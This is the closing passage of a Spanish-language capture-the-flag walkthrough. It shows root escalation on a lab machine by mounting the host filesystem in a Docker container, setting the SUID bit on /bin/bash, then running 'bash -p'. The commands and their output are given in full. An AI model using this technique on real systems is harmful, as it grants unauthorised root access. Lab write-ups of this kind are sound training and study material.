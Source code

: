 Antes de aplicarlo, veamos qué permisos tiene la **Bash**:
```bash
-bash-5.1$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Ahora sí, apliquémoslo:
```bash
-bash-5.1$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
9824c27679d3: Pull complete 
Digest: sha256:4bcff63911fcb4448bd4fdacec207030997caf25e9bea4045fa6c8c44de311d1
Status: Downloaded newer image for alpine:latest
root@4d640ed25840:/#
```

Démosle **permisos SUID** a la **Bash**:
```bash
root@4d640ed25840:/# chmod u+s /bin/bash
root@4d640ed25840:/# ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Ya están asignados.

Salgamos del contenedor y revisemos los permisos de la **Bash** de nuevo:
```bash
-bash-5.1$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Ahí están los **permisos SUID**.

Ejecuta la **Bash** con privilegios:
```bash
-bash-5.1$ bash -p
bash-5.1# whoami
root
```
Somos **Root**.

Obtengamos la última flag:
```bash
bash-5.1# cd /root
bash-5.1# ls
root.txt  snap
bash-5.1# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
